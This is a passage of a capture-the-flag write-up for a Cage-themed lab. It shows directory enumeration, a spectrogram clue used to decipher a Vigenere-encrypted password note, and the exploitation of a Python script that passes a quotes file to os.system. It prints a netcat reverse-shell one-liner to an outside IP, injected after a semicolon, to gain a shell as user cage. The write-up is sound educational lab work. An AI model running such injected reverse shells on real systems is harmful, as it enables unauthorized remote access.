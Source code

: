    ```bash 
    /html (Status: 301)
    /scripts (Status: 301)
    /contracts (Status: 301)
    /auditions (Status: 301)
    ```
- /auditions
In this directory we can find an audio file. when we open it with [audacity](https://www.audacityteam.org/). we can see there's a hidden word in its spectogram.

# Weston

using the word found in the spectogram we can dechiper the vigenere chiper and get the password for weston
- Dechipered Text
    ```
    Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
    One. Revamp the website
    Two. Put more quotes in script
    Three. Buy bee pesticide
    Four. Help him with acting lessons
    Five. Teach Dad what "information security" is.
    
    In case I forget.... ************************************************
    ```
    
here we found that there is a ```wall``` message keep appearing from cage. By looking around a little, we will find there's a script doing that in 
```
/opt/.dad_scripts/
```
Here is the script called `spread_the_quotes.py`
```python
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```
From this we can see that it will broadcast message contained in the `.quotes` file.
we can try to put a reverse shell script inside it, so it will execute it as cage.
```bash
echo "lol;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.23.241 9001 >/tmp/f" > .quotes 
```
By waiting  for a few minutes we will get a shell as cage 
![alt text](https://i.imgur.com/UqSNz4e.png)
